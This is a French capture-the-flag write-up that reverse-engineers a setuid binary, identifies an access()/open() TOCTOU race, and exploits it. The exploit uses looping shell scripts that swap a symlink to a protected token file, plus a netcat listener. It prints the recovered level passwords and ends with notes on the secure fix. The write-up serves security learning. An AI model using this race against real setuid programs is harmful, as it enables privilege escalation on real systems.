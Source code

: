 LEVEL 10

------------------------------------------------------------------------------------------------------------------------

    find . -user level09 2> /dev/null | grep -v proc
                 flag09
    find . -perm /u=s,g=s 2> /dev/null | grep -v proc
    find . -type f -user flag09 -o -user level09
    find . -maxdepth 1 -name "*string*" -print

* Recherches


    strace ./level10

        write(1, "./level10 file host\n\tsends file "..., 65./level10 file host
            sends file to host if you have access to it
        ) = 65


    strings ./level10

        %s file host                                            ---> utile
        sends file to host if you have access to it
        Connecting to %s:6969 ..                                ---> utile
        Unable to connect to host %s
        .*( )*.
        Unable to write banner to host %s
        Connected!
        Sending file ..
        Damn. Unable to open file
        Unable to read from file: %s
        wrote file!
        You don't have access to %s

    objdump -d level10 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/' | grep call

    804870e:	e8 0d fe ff ff       	call   8048520 <printf@plt>
    804871a:	e8 71 fe ff ff       	call   8048590 <exit@plt>
    8048749:	e8 92 fe ff ff       	call   80485e0 <access@plt>        --> Faille --> Access exploit - TOCTOU race (Time of Check to Time of Update)
    8048766:	e8 b5 fd ff ff       	call   8048520 <printf@plt>
    8048773:	e8 b8 fd ff ff       	call   8048530 <fflush@plt>
    804878f:	e8 5c fe ff ff       	call   80485f0 <socket@plt>
    80487cb:	e8 30 fe ff ff       	call   8048600 <inet_addr@plt>
    80487de:	e8 6d fd ff ff       	call   8048550 <htons@plt>
    8048805:	e8 06 fe ff ff       	call   8048610 <connect@plt>
    804881f:	e8 fc fc ff ff       	call   8048520 <printf@plt>
    804882b:	e8 60 fd ff ff       	call   8048590 <exit@plt>
    8048847:	e8 74 fd ff ff       	call   80485c0 <write@plt>          --> Ici que le token peut passer
    8048861:	e8 ba fc ff ff       	call   8048520 <printf@plt>
    804886d:	e8 1e fd ff ff       	call   8048590 <exit@plt>
    804887a:	e8 a1 fc ff ff       	call   8048520 <printf@plt>
    8048887:	e8 a4 fc ff ff       	call   8048530 <fflush@plt>
    804889b:	e8 00 fd ff ff       	call   80485a0 <open@plt>
    80488b2:	e8 a9 fc ff ff       	call   8048560 <puts@plt>
    80488be:	e8 cd fc ff ff       	call   8048590 <exit@plt>
    80488da:	e8 31 fc ff ff       	call   8048510 <read@plt>
    80488ea:	e8 e1 fc ff ff       	call   80485d0 <__errno_location@plt>
    80488f4:	e8 77 fc ff ff       	call   8048570 <strerror@plt>
    8048905:	e8 16 fc ff ff       	call   8048520 <printf@plt>
    8048911:	e8 7a fc ff ff       	call   8048590 <exit@plt>
    804892d:	e8 8e fc ff ff       	call   80485c0 <write@plt>          --> Ici que le token peut passer
    8048939:	e8 22 fc ff ff       	call   8048560 <puts@plt>
    8048950:	e8 cb fb ff ff       	call   8048520 <printf@plt>
    8048965:	e8 d6 fb ff ff       	call   8048540 <__stack_chk_fail@plt>

    1er constat : connect port 6969 de l'hote donné en string (second arg)

    fflush : fflush() is typically used for output stream only. Its purpose is to clear (or flush) the output buffer and move
    the buffered data to console (in case of stdout) or disk (in case of file output stream). Below is its syntax.
    
    
    echo Hello > /tmp/x
    ./level10 /tmp/x 127.0.0.1
        Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
    
    nc -l 6969
    ./level10 /tmp/x 127.0.0.1

        -> Fonctionne, maintenant faut bypass le token
    

    https://stackoverflow.com/questions/7925177/access-security-hole
    La faille d'access peut permettre d'envoyer le token bien qu'on ait pas les droits de lecture
    Surtout que le open est fait bien après le access dont gap de temps en théorie suffisant
    [race condition]

    Extrait du man : 

     The result of access() should not be used to make an actual access control decision,
     since its response, even if correct at the moment it is formed, may be outdated at
     the time you act on it.  access() results should only be used to pre-flight, such as
     when configuring user interface elements or for optimization purposes.  The actual
     access control decision should be made by attempting to execute the relevant system
     call while holding the applicable credentials, and properly handling any resulting
     errors; and this must be done even though access() may have predicted success.

     Additionally, set-user-ID and set-group-ID applications should restore the effective
     user or group ID, and perform actions directly rather than use access() to simulate
     access checks for the real user or group ID.


    On va avoir besoin d'un client qui se connecte en permanence :
    
    1. ln -s ~/token /tmp/x

    2. vi /tmp/connect.sh

        #!/bin/sh
        while [ 1 ]
        do
            ~/level10 /tmp/x 127.0.0.1
        done

        sh /tmp/connect.sh
    
    3. nc -lk 6969
    
    Le problème ici est que la race condition n'est "s'ouvre" jamais car access ne fait pas d'erreur à proprement parlé, enfin ses prédictions sont juste disons
    Donc il faut ajouter de quoi "tromper" access

    4. 
       #!/bin/sh
       while [ 1 ]
        do
            rm -rf /tmp/x
            touch /tmp/x
            # Race condition here
            ln -sf ~/token /tmp/x
        done

    su flag10 woupa2yuojeeaaed06riuj63c
    getflag
    su level11 feulo4b72j7edeahuete3no7c


* Solution

------------------------------------------------------------------------------------------------------------------------

NB : 
That is a TOCTOU race (Time of Check to Time of Update). A malicious user could substitute a file he has access to for a symlink to something he doesn't have access to between the access() and the open() calls. Use faccessat() or fstat(). In general, open a file once, and use f*() functions on it (e.g: fchown(), ...).

NB : nc -lk =  Forces nc to stay listening for another connection after its current connection is completed


